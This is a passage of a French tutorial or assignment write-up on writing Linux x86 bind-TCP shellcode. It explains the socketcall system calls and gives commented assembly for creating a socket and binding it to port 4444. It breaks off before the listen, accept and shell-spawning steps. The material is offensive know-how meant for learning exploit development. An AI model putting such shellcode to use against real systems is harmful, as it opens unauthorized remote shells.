 # Assignement 1 #

Dans le premier exercice, il est demande de réaliser un shellcode permettant d'obtenir un Shell Bind TCP.

L'idée ici est dans un premier temps de créer un socket, de le lier à un port puis de le mettre en écoute passive afin d'accepter les connexions entrantes. Les sorties standards stdin, stdout et stderr sont redirigées afin de pouvoir être utilisées une fois la connexion établie par un shell distant. 

## Création d'un socket ##

La principale référence bibliographique est la documentation des appels systèmes http://man7.org/linux/man-pages/man2/socketcall.2.html. L'appel socketcall est utilisé pour définir les actions sur les sockets en fonction du champ call. La valeur 1 indique que c'est la création d'un socket qui nous interesse. Il s'agit ici d'indiquer un domain, un type et un protocol. 
Nous prenons AF_INET pour le domain soit la valeur 2, SOCK_STREAM pour le type, valeur 1 et pour le protocol nous laissons la valeur 0.

```c
	xor ebx, ebx 		; ebx = 0
	mul ebx			; eax=ebx=edx = 0
	push ebx		; push 0 onto the stack
	inc ebx			; ebx = 1
	push ebx		; push 1 onto the stack
	push byte 0x2		; push 2 onto the stack
	mov ecx, esp		; set ecx to the address of our args
	mov al, 0x66		
	int 0x80		; make the syscall socketcall(socket(2,1,0))
```

## Création du binding ##

Nous sauvegardons dans un premier temps le resultat de la création du socket dans edx. Etant donné le prototype de la fonction bind présenté ci-dessous nous devrions avoir les valeurs suivantes:
bind(edx, [2,4444,0], 16)

```c
	; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
	; bind(sockfd, [AF_INET, PORT, INADDR_ANY], 16)

	xchg eax, edx		; save sockfd into edx
	pop ebx			; set ebx = 2 (bind)
	pop esi			; pop 1
	push word 0x5c11	; push 4444 port onto the stack
	push word bx		; push 2 onto the stack
	mov ecx, esp		; set ecx the address of our args
	push 0x10		; push 16
	push ecx		; push address of our args
	push edx		; push sockfd
	mov ecx, esp		; ecx = end of the stack
	mov al, 0x66   		
	int 0x80		; make the syscall  socketcall(bind(sockfd, [2,4444,0], 16))

```
La pile ressemble maintenant au schéma ci-dessous:

